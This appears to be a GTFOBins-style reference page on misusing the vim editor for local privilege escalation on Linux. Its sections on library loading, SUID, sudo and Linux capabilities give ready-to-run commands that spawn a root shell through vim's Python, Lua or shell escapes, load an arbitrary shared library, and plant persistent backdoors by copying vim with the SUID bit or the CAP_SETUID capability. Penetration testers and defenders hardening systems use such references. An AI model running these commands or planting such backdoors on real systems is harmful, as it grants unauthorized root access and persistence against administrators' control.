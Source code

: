 It loads shared libraries that may be used to run code in the binary execution context.

This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.

```
vim -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.

```
sudo install -m =xs $(which vim) .

./vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo vim -c ':!/bin/sh'
```

This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.

```
sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

This requires that `vim` is compiled with Lua support.

```
sudo vim -c ':lua os.execute("reset; exec sh")'
```

## Capabilities

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.

```
cp $(which vim) .
sudo setcap cap_setuid+ep vim

./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
